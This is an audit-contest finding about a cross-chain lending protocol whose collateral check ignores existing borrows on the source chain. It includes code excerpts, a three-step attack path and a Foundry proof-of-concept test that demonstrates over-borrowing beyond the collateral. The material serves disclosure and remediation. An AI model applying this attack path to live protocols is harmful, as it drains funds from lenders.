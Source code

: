 Bright Cyan Cyborg

High

# The user can borrow more than their provided collateral

### Summary

When a cross-chain borrow from chain A to chain B is made, only the existing amount of borrowed tokens is checked on chain B. It is not verified whether the user has an active borrow position on chain A. This allows the user to borrow more tokens than they actually should. A user can first borrow on chain A using a normal same-chain borrow, and then borrow again using a cross-chain borrow, receiving a total amount of borrowed tokens that exceeds their collateral.

### Root Cause

When a user makes a cross-chain borrow, their collateral amount is calculated using the `getHypotheticalAccountLiquidityCollateral` function, and this collateral amount is sent to the destination chain.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L139

```solidity
        (, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(_lToken), 0, 0);

        // Send message to destination chain with verified sender
        // borrowIndex of 0 initially - will be set correctly on dest chain
        _send(
            _destEid,
            _amount,
            0, // Initial borrowIndex, will be set on dest chain
            collateral, // collateral amount
            msg.sender,
            destLToken,
            address(0), // liquidator
            _borrowToken,
            ContractType.BorrowCrossChain
        );
```

On the destination chain, the existing borrow amount is calculated again using the same `getHypotheticalAccountLiquidityCollateral` function:

```solidity
        // Get existing borrow amount
        (uint256 totalBorrowed,) = lendStorage.getHypotheticalAccountLiquidityCollateral(
            payload.sender, LToken(payable(payload.destlToken)), 0, payload.amount
        );
```

If `payload.collateral >= totalBorrowed`, the user is allowed to borrow the requested amount. However, during the entire process of checking whether the user can borrow the desired amount, there is no validation to determine whether the user has an active borrow position on the source chain.

The user can first borrow on the source chain, and then perform a cross-chain borrow, effectively receiving more borrowed tokens than their collateral should allow.

### Internal Pre-conditions

N/A

### External Pre-conditions

There should be enough liquidity on both chains.

### Attack Path

1. The user supplies their collateral tokens on chain A
2. The user borrows on the same chain A
3. The user performs a cross-chain borrow on chain A, receiving tokens on chain B

### Impact

The user effectively receive more tokens than their collateral should allow.

### PoC

```solidity   
 // forge test -vvv --match-test test_crossBorrowH1
    //@audit-issue PoC H1
    function test_crossBorrowH1() public {
        vm.deal(address(routerA), 1 ether);  // Fund Router A with ETH for LayerZero fees

        uint256 amountToSupply = 100_000e18;
        uint256 amountToBorrowChainB = 70_000e18;

        // First supply tokens as collateral on Chain A
        (address tokenA, address lTokenA) = _supplyA(amountToSupply);
        // Then supply tokens as borrowable on Chain B
        _supplyB(amountToSupply * 2);


        uint256 boundedBorrow = bound(amountToBorrowChainB, 0.1e18, 85_000e18); // 75%
        uint256 maxBorrowChainA = (amountToSupply * 60) / 100; // 60%

        // Verify token mappings
        address destToken = lendStorageA.underlyingToDestUnderlying(tokenA, CHAIN_B_ID);

        // Get initial balances
        uint256 initialTokenBalanceA = IERC20(tokenA).balanceOf(deployer);
        uint256 initialTokenBalanceB = IERC20(destToken).balanceOf(deployer);

        vm.startPrank(deployer);

        // Expect BorrowSuccess event
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(deployer, lTokenA, maxBorrowChainA);

        coreRouterA.borrow(maxBorrowChainA, tokenA);
        assertEq(
            IERC20(tokenA).balanceOf(deployer) - initialTokenBalanceA,
            maxBorrowChainA,
            "Should receive correct amount of borrowed tokens"
        );


        // Expect BorrowSuccess event
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(deployer, tokenA, boundedBorrow);

        // Call borrowCrossChain with token address
        routerA.borrowCrossChain(boundedBorrow, tokenA, CHAIN_B_ID);

        // Verify the borrow was successful
        assertEq(
            IERC20(destToken).balanceOf(deployer) - initialTokenBalanceB,
            boundedBorrow,
            "Should receive correct amount of borrowed tokens"
        );

        vm.stopPrank();

        console.log("Borrowed token on chain A:");
        console.log(IERC20(tokenA).balanceOf(deployer) - initialTokenBalanceA);

        console.log("Borrowed token on chain B:");
        console.log(IERC20(destToken).balanceOf(deployer) - initialTokenBalanceB);
    }
```

### Mitigation

When a cross-chain borrow is made, consider whether the user has an active borrow position on the source chain.